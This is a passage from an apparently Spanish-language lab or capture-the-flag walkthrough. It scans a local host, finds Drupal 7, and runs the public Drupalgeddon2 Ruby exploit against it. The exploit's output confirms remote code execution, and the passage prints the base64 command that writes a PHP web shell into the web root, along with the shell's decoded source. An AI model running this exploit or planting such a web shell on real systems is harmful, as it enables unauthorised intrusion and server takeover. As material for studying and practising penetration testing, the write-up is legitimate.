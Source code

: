 ```
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-generator: Drupal 7 (<http://drupal.org>)
111/tcp open  rpcbind
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          39179/udp   status
|   100024  1          45347/udp6  status
|   100024  1          53913/tcp6  status
|_  100024  1          60026/tcp   status

Nmap done: 256 IP addresses (2 hosts up) scanned in 19.33 seconds

```

Si visitamos la ip con nuestro navegador vemos que tiene el drupal corriendo y es wappalyzer el que nos otorga la versión, en este caso 7.
Utilizamos el exploit creado en ruby que nos generará una shell reversa, antes, tenemos que isntalar una dependencia del script con el comando:
`sudo gem install highline`

Ahora usamos el script y le damos como argumento la url del drupal.

```
└─$ ruby 44449.rb <http://192.168.56.5/>
ruby: warning: shebang line ending with \\r may cause problems
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : <http://192.168.56.5/>
--------------------------------------------------------------------------------
[!] MISSING: <http://192.168.56.5/CHANGELOG.txt>    (HTTP Response: 404)
[!] MISSING: <http://192.168.56.5/core/CHANGELOG.txt>    (HTTP Response: 404)
[+] Found  : <http://192.168.56.5/includes/bootstrap.inc>    (HTTP Response: 403)
[!] MISSING: <http://192.168.56.5/core/includes/bootstrap.inc>    (HTTP Response: 404)
[+] Found  : <http://192.168.56.5/includes/database.inc>    (HTTP Response: 403)
[+] URL    : v7.x/6.x?
[+] Found  : <http://192.168.56.5/>    (HTTP Response: 200)
[+] Metatag: v7.x/6.x [Generator]
[!] MISSING: <http://192.168.56.5/>    (HTTP Response: 200)
[+] Drupal?: v7.x/6.x
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo YUAKQMHQ
[+] Result : YUAKQMHQ
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (<http://192.168.56.5/shell.php>)
[!] Response: HTTP 200 // Size: 7.   ***Something could already be there?***
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
```